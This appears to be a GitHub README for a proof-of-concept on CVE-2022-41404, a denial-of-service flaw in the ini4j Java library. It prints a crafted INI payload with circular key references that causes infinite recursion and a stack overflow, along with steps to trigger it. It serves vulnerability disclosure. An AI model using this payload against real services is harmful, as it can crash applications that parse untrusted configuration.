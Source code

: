 # Unpatched ini4j DoS vulnerability [CVE-2022-41404](https://nvd.nist.gov/vuln/detail/CVE-2022-41404)

A CVE was submitted to NVD on 10/11/2022, claiming that [ini4j](https://mvnrepository.com/artifact/org.ini4j/ini4j) 
*prior* to [0.5.4](https://mvnrepository.com/artifact/org.ini4j/ini4j/0.5.4) is vulnerable to a DoS attack. The ini file 
payload is

```
[sectionOne]
weight = ${sectionTwo/weight}
height = ${doc/height}

[sectionTwo]
weight = ${sectionOne/weight}
height = ${sectionOne/height}

[doc]
weight = 49.5
height = 87.7
```
If you take a look at `sectionOne`, you can note that the `weight` key references the `sectionTwo` `weight` key, 
and then references the `sectionOne` `weight` key. This infinite lookup loop results in Denial of Service. This type of
DoS can be described as a [Billion Laugh attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)

It turns out that [0.5.4](https://mvnrepository.com/artifact/org.ini4j/ini4j/0.5.4) hasn't been updated since 2015, and 
there is no fixed version.

## How to run the PoC

1. Install the ini4j dependency using maven
2. Run the main class in [Main.java](src%2Fmain%2Fjava%2Forg%2Fini4jTest%2FMain.java)
3. When trying to `fetch` the `weight` key in `sectionOne`, a StackOverFlow Exception is raised, resulting in DoS
   - `ini.get("sectionOne").fetch("weight");`
